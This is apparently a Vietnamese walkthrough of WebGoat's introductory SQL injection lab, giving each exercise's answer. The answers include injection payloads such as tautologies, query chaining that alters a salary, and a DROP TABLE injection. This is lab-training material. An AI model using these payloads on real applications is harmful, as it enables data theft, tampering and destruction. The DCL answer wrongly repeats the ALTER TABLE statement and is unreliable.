 ```yaml
---
title: "(A3) SQL Injection - SQL Injection (Intro) - Webgoat"
tag: "webgoat"
subtitle: " 🐐
  Bài viết này mình sẽ hướng dẫn các bạn làm phần (A3) SQL Injection - SQL Injection (Intro)"
date: "20-3-2024"
id: "10"
---
```


![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711097747/WebGoat/WebGoat_ad2axz.png)

- **SQL Injection** là một kỹ thuật tấn công phổ biến trong lĩnh vực bảo mật web, mà kẻ tấn công sử dụng để thực hiện các thao tác không hợp lệ trên cơ sở dữ liệu của ứng dụng web thông qua việc chèn các câu lệnh SQL bất hợp pháp vào các trường nhập liệu của biểu mẫu web hoặc các tham số truy vấn URL.

- Khi một ứng dụng web không kiểm tra và xử lý đầu vào của người dùng một cách an toàn, kẻ tấn công có thể chèn các câu lệnh SQL như SELECT, INSERT, UPDATE hoặc DELETE vào các trường nhập liệu. Khi thực thi, các câu lệnh này có thể gây ra các hậu quả nguy hiểm như thu thập thông tin nhạy cảm, sửa đổi hoặc xóa dữ liệu trong cơ sở dữ liệu, hoặc thậm chí kiểm soát hoàn toàn ứng dụng web.

- Để phòng tránh SQL Injection, các nhà phát triển cần áp dụng các biện pháp bảo mật như sử dụng câu lệnh tham số hóa, sử dụng các API truy cập cơ sở dữ liệu an toàn, kiểm tra và xử lý đầu vào của người dùng một cách cẩn thận, và thường xuyên kiểm tra và cập nhật bảo mật cho ứng dụng web.

## 1. What is SQL?

- Đề bài yêu cầu lấy department của nhân viên Bob Franco
- Nhập câu lệnh SQL sau và nhấn submit là xong:

```json
SELECT department FROM employees WHERE USERID = 96134
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1710936742/WebGoat/H37_ehbiz5.png)

## 2. Data Manipulation Language (DML)

- Đề bài yêu cầu thay đổi department của Tobi thành 'Sales'
- Nhập câu lệnh sau và nhấn submit là xong:

```json
UPDATE employees SET department = 'Sales' WHERE USERID = 89762
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1710936742/WebGoat/H38_gbcfc5.png)

## 3. Data Definition Language (DDL)

- Đề bài yêu câu thêm một trường "phone" vào bảng "employees"
- Nhập câu lệnh sau và nhấn submit là xong:

```json
ALTER TABLE employees ADD phone varchar(20)
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1710936743/WebGoat/H39_eaaird.png)

## 4. Data Control Language (DCL)

- Đề bài yêu cầu cấp quyền cho bảng `grant_rights ` đến user là `unauthorized_user`:
- Nhập câu lệnh sau và nhấn submit là xong:

  ```json
  ALTER TABLE employees ADD phone varchar(20)
  ```

  ![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1710936743/WebGoat/H40_qj3x9g.png)

## 5. Try It! String SQL injection

- Đề bài yêu cầu hoàn thành câu lệnh SQL
- Ta lần lượt chọn các ô là: `Smith' `, `OR` và ` '1' = '1`. Nhấn Get Account Info
  ![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1710936744/WebGoat/H41_xdzzbm.png)

## 6. Try It! Numeric SQL injection

- Đề bài yêu cầu lấy tất cả thông tin trong bảng users
- Ta lần lượt điền: Login_Count: `0` và User_Id:`6 OR TRUE`. Nhấn Get Account Info
  ![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1710936744/WebGoat/H42_wm0w84.png)

## 7. Compromising confidentiality with String SQL injection

- Đề bài yêu cầu lấy tất cả dữ liệu ` employees`
- Ta điền: Employee Name: `TAN' OR TRUE --`. Nhấn Get department
  ![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1710936749/WebGoat/H43_ndr5p5.png)

## 8. Compromising Integrity with Query chaining

- Lần lượt nhập: Employee Name: `Smith` và Authentication `TAN: 3SL99A'; UPDATE employees SET salary = 10000000 WHERE auth_tan = '3SL99A'--` . Nhấn Get department:
  ![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1710936751/WebGoat/H44_n7yzcj.png)

## 9. Compromising Availability

- Ta nhập lệnh: `UPDATE'; DROP TABLE access_log --`. Và nhấn Search logs
  ![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1710936750/WebGoat/H45_aufcrd.png)

## Tham khảo:

1.  Đỗ Tuấn: [Link](https://www.youtube.com/watch?v=7WecQCiCeSE "Link")
